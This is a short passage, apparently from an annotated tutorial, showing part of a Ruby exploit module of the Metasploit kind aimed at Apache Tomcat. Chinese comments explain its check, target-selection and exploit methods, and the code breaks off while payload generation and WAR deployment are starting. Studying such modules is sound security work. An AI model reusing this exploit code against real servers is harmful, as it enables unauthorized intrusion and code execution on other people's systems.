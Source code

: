 ```
# 检查函数
def check
    # 查询服务器 server 信息，赋值给 res
    res = query_serverinfo
    disconnect
    return CheckCode::Unknown if res.nil?
    if (res.code.between?(400, 499))
      vprint_error("Server rejected the credentials")
      return CheckCode::Unknown
    end

    report_tomcat_credential

    # 打印状态信息，输出到屏幕
    vprint_status("Target is #{detect_platform(res.body)} #{detect_arch(res.body)}")
    return CheckCode::Appears
  end

  # 尝试连接目标主机    
  def auto_target
    print_status("Attempting to automatically select a target...")

    res = query_serverinfo()
    return nil if not res

    plat = detect_platform(res.body)
    arch = detect_arch(res.body)

    # 对 arch 参数进行检查。如果没有则返回
    if (not arch or not plat)
      return nil
    end

    # 查看是否已经连接成功
    targets.each { |t|
      if (t['Platform'] == plat) and (t['Arch'] == arch)
        return t
      end
    }

    # 如果没有目标匹配，则返回
    return nil
  end

  # 攻击模块的代码
  def exploit
    mytarget = target
    if (target.name =~ /Automatic/)
      mytarget = auto_target
      if (not mytarget)
        fail_with(Failure::NoTarget, "Unable to automatically select a target")
      end
      print_status("Automatically selected target \"#{mytarget.name}\"")
    else
      print_status("Using manually select target \"#{mytarget.name}\"")
    end

    # 重新生成 payload 如果 auto-magic 发生改变。
    p = exploit_regenerate_payload(mytarget.platform, mytarget.arch)

    # Generate the WAR containing the EXE containing the payload
    jsp_name = rand_text_alphanumeric(4+rand(32-4))
    app_base = rand_text_alphanumeric(4+rand(32-4))
```